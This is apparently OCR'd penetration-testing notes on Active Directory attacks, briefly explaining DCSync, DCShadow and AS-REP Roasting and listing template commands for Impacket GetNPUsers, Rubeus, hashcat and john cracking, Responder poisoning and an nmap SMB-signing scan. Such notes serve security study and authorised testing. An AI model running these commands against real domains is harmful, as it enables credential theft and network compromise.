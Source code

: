         -   DCsync attack simulates the behavior of a domain controller and asks other domain controllers to replicate information using the Directory Replication Service Remote Protocol ([MS-DRSR]). Basically, it lets you pretend to be a domain controller and ask for user password data

    -   **DC shadow**

        -   With "[DCShadow]", attackers no longer try to replicate data but will register new domain controllers or to create a fake Active Directory Domain Controller (DC) in the targeted infrastructure to inject Active Directory objects or alter existing ones  and makes malicious changes to legitimate DCs. (by replacing the attributes' content) 

    -   **AS-REP Roasting**

        -   If a domain user does not have Kerberos preauthentication enabled, an AS-REP can be successfully requested for the user, and a component of the structure can be cracked offline a la kerberoasting

        -   It is often-overlooked in my opinion it is not extremely common as you have to explicitly set Accounts Does not Require Pre-Authentication aka DONT\_REQ\_PREAUTH

        -   Pre-Authentication is the first step in Kerberos Authentication and it's main role is to try prevent against brute-force password guessing attacks

        -   **Lmpacket**

            -   **check ASREPRoast for all domain users (credentials required)**

            -   python GetNPUsers.py \<domain\_name\>/\<domain\_user\>:\<domain\_user\_password\> -request -format \<AS\_REP\_responses\_format \[hashcat \| john\]\> -outputfile \<output\_AS\_REP\_responses\_file\>

            -   **check ASREPRoast for a list of users (no credentials required)**

            -   python GetNPUsers.py \<domain\_name\>/ -usersfile \<users\_file\> -format \<AS\_REP\_responses\_format \[hashcat \| john\]\> -outputfile \<output\_AS\_REP\_responses\_file\>

        -   **Rubeus (windows)**

            -   check ASREPRoast for all users in current domain

            -   .\\Rubeus.exe asreproast /format:\<AS\_REP\_responses\_format \[hashcat \| john\]\> /outfile:\<output\_hashes\_file\>

        -   **Crack with dictionary passwords**

            -   hashcat -m 18200 -a 0 \<AS\_REP\_responses\_file\> \<passwords\_file\>

            -   john \--wordlist=\<passwords\_file\> \<AS\_REP\_responses\_file\>

    -   **Ntds.dit Extraction**

    -   **LLMNR & NetBios Poisoning**

        -   **Responder**

            -   git clone https://github.com/lgandx/Responder

            -   python Responder.py -I eth0 -wrf

        -   **Search SMB Signing disabled or not required**

            -   nmap -p 445,139 \--open \--script smb2-security-mode 192.168.100.0/24 \| grep \"scan report \\\| signing\"
